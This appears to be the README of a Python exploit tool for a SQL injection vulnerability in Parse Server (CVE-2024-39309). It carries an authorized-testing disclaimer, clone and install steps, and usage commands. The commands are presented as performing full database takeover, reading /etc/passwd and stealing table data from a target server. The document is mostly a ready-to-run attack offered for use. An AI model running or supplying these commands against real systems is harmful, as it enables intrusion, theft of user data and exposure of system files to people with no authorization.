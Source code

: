 Database Ghost 🔥
Advanced PostgreSQL SQL Injection Exploitation Tool
<p align="center"> <img src="https://img.shields.io/badge/Python-3.6%2B-blue?style=for-the-badge&logo=python" alt="Python"> <img src="https://img.shields.io/badge/PostgreSQL-SQL%20Injection-red?style=for-the-badge&logo=postgresql" alt="PostgreSQL"> <img src="https://img.shields.io/badge/CVE-2024--39309-orange?style=for-the-badge" alt="CVE-2024-39309"> </p>

🚨 DISCLAIMER
FOR AUTHORIZED SECURITY TESTING ONLY
Unauthorized use is illegal. Use only on systems you own or have explicit permission to test.

⚡ QUICK START
Install & Run

```
git clone https://github.com/HeavyGhost-le/POC_SQL_injection_in_Parse_Server_prior_6.5.7_-_7.1.0.git
cd POC_SQL_injection_in_Parse_Server_prior_6.5.7_-_7.1.0
pip install requests
chmod +x star_ghost_english.py
```

Basic Usage
```
# Full database takeover
python3 star_ghost_english.py -u http://target:1337 -a your-app-id

# Read system files
python3 star_ghost_english.py -u http://target:1337 -a your-app-id -f /etc/passwd

# Steal database data
python3 star_ghost_english.py -u http://target:1337 -a your-app-id -t users
```
